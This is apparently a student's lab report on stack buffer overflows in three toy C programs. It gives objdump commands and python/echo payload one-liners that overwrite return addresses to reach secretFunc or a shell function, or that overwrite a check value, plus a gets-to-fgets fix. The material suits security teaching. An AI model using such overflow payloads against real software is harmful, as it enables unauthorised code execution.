

# LAB 1

## File bof1.c

**Run vitual environment by docker**
>docker run -it --privileged -v D:\StudyHK1_2024\InformationSecurity\SecLabs:/home/seed/seclabs img4lab

**Getting secretFunc() address by command**
`objdump -d bof1.out|grep secretFunc`

**Stack frame**

=> It’s a buffer overflow at the 205th byte.

**Run the program by the command**
- Take advantage of the above statement to automatically input 204 bytes of the letter 'a', then insert the address of the `secretFunc` function.
- replacement byte (204byte) + address secretFunc(\x6b\x84\x04\x08)
 > echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out

=> Successful Attack

=> To prevent exploitation in this case, I will replace `gets()` with `fgets()` to ensure the correct limit of array a is respected.

## File bof2.c

**Summarizing**

- In this case, the array buf[] has 40 elements, but the `fgets()` command reads up to 44 elements `(fgets(buf, 45, stdin))`, with the last element reserved for `\0`, the null terminator character.

 => We rely on the last 4 elements to modify the check.

**Stackframe**

**Run the program with the command**

>echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out

=> Successfully

## File bof3.c

**Summarizing**

- In this case, the `buf[]` array has 128 elements, but the `fgets()` command reads up to 133 elements.

 => We rely on 4 elements to replace the address addition function into the address function shell

**Stack frame**

**Get the shell function's address**
`objdump -d bof3.out|grep shell`

**Run the program with the command**

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`

=> Seccessful
